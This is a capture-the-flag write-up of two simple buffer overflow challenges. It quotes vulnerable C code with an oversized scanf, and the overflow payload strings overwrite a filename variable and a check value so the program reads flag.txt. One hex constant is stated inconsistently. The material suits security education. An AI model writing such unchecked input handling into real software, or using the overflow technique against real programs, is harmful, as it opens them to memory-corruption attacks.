


# Buffer Overflow CTF5

This CTF includes two challenges. In each of them, we exploited a program with a buffer overflow vulnerability in order to access a file named "flag.txt".

## 1st flag

#### Source Code

The `main.c` script is simple:

- Create two character arrays, `meme_file` and `buffer`, with sizes 8 and 32, respectively.

```c
char meme_file[8] = "mem.txt\0";
char buffer[32];
```

- Read 40 characters of user input and store them in the `buffer`.

```c
scanf("%40s", &buffer);
```

- Open the file with the variable `meme_file`.

```c
FILE *fd = fopen(meme_file,"r");
```

- Attempts to read from the file, if it was found, and stores the content on the `buffer`. Prints `buffer`.

```c
while(1){
    if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
        printf("%s", buffer);
    } else {
        break;
    }
}
```

### Obtaining the flag

Before executing the python script, we have to create a payload to cause the buffer overflow. Since our input is limited to the command line, it would have to be a string with the following restrictions:

* Because `buffer` is 32 bytes, the length of the string needs to be bigger than that to create an overflow.
* The string has to contain the file name `flag.txt` immediately after the 32nd character in order to overwrite the `meme_file` variable.

We used the following string:
```python
"justtryingtocauseabufferoverlowflag.txt"
```

We modified the script to send it to the program.

```python
r.sendline(b"justtryingtocauseabufferoverlowflag.txt")
```
Running our script, we got the following output:




## 2nd flag

#### Source Code

`main.c` is really similar to the 1st challenge.

- Initialized three arrays: `meme_file` (9 bytes), `val` (4 bytes), and `buffer` (32 bytes).

```c
char meme_file[9] = "mem.txt\0\0";
char val[4] = "\xef\xbe\xad\xde";
char buffer[32];
```

Because `buffer` is next to `val` in memory and `meme_file` is next to `val`, we have to overwrite `val` to overwrite `meme_file`.

- Read 45 characters of input and store them.

```c
scanf("%45s", &buffer);
```

- Convert `val` into an integer pointer and compare the result with `0xfefc2324`.

```c
if(*(int*)val == 0xfefc2324) {
    ...
}
```

- If the previous values are equal, open the file stored in the `meme_file` variable.

```c
FILE *fd = fopen(meme_file,"r");
```

- Attempts to read the file, if it is found, and prints it's content.

```c
while(1){
    if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
        printf("%s", buffer);
    } else {
        break;
    }
}
```

We had to overflow `buffer` to overwrite the contents of `meme_file`, as well overwriting `val`, as the code could only be executed when `val` was equal to `0xfefc2324`.

### Obtaining the flag

We used the same python script for this challenge.

The string restrictions this time are as follows:

- The size of the string has to be bigger than 32 bytes so we could overflow the `buffer`.
- The bytes in the positions 32 to 36  have to contain the characters that are equal to `0xfcfe2324`.

```python
string[32:36] = "\x24\x23\xfc\xfe"
```

We used the following string:

```python
"justtryingtocauseabufferoverflow\x24\x23\xfc\xfeflag.txt"
```

Copying the string to the Python script so that it would be sent to the program.

```python
r.sendline(b"justtryingtocauseabufferoverflow\x24\x23\xfc\xfeflag.txt")
```

Executing the exploit gave us the following output:



